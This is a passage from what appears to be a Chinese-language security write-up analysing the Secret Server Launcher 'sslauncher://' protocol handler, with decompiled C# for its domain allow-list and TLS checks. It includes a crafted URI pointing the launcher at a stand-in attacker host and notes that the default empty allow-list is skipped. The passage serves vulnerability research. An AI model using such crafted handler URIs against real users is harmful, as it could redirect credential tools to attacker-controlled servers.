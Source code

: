   
所以我们的 sslauncher 值现在必须看起来像这样：  
  
```
sslauncher://aaaa/?ssurl=https://www.attacker.com/aaa/bbb/ccc
```  
  
  
接下来根据注册表设置进行检查，以确定是否已配置域允许列表：  
  
```
if (allowedDomains != null && allowedDomains.Count > 0 && !registrySettings.AllowedDomains.Contains(uri.Host, StringComparer.OrdinalIgnoreCase))
                        {
                            Program.Log.Error("AllowedDomains registry key does not allow connecting to host at " + uri.Host + ", quitting.");
                            IoC.Resolve<IMessageBox>().Show("The Secret Server Launcher failed to load.\n\nYour configuration settings do not allow connecting to the Secret Server installation at " + uri.Host + ".", "Error", MessageBoxButtons.OK, MessageBoxIcon.Hand);
                        }
```  
  
  
在协议处理程序的默认安装中，此注册表值为空，因此跳过检查，并且代码继续对 ssurl 参数中提供的域进行 TLS 证书检查：  
  
```
public bool GetAndVerifyCertificate()        {
            string components = this._uri.GetComponents(UriComponents.SchemeAndServer, UriFormat.Unescaped);
            string text = string.Format("{0}/{1}", this._uri.GetComponents(UriComponents.SchemeAndServer, UriFormat.Unescaped), this._uri.GetComponents(UriComponents.Path, UriFormat.Unescaped));
            if (!string.Equals(this._uri.Scheme, "https", StringComparison.OrdinalIgnoreCase))
            {
                this._log.Warn("Could not validate HTTPS certificate: Secret Server URL is not HTTPS (" + text + ")");
                this._messageBox.Show("You must connect to Secret Server using HTTPS.\nCurrent URL: " + text + "\n\nFor assistance, please contact your administrator.\n\n", "HTTPS Validation Error", MessageBoxButtons.OK, MessageBoxIcon.Hand);
                return false;
            }
            ServicePointManager.CheckCertificateRevocationList = true;
            HttpWebRequest httpWebRequest = WebRequest.CreateHttp(components);
            httpWebRequest.ServerCertificateValidationCallback = new RemoteCertificateValidationCallback(this.CertificateValidator);
            httpWebRequest.AllowAutoRedirect = false;
            try
            {
                using (httpWebRequest.GetResponse())
                {
                }
            }
            catch (Exception ex)
            {
                if (this._sslPolicyErrors == null)
                {
                    this._log.Error("Unspecified error occurred when attempting to connect to Secret Server for HTTPS validation", ex);
                    this._messageBox.Show("Unable to connect to Secret Server to verify its HTTPS certificate:\n\n" + ex.Message + "\n\nPlease try again later.", "Unable to Connect", MessageBoxButtons.OK, MessageBoxIcon.Hand);
                    return false;
                }
                if (this._sslPolicyErrors.Value == SslPolicyErrors.None)
                {
                    this._log.Debug("HTTPS validation succeeded without error for " + components);
                    return true;
                }
                if (this.AreCurrentErrorsBypassed())
```
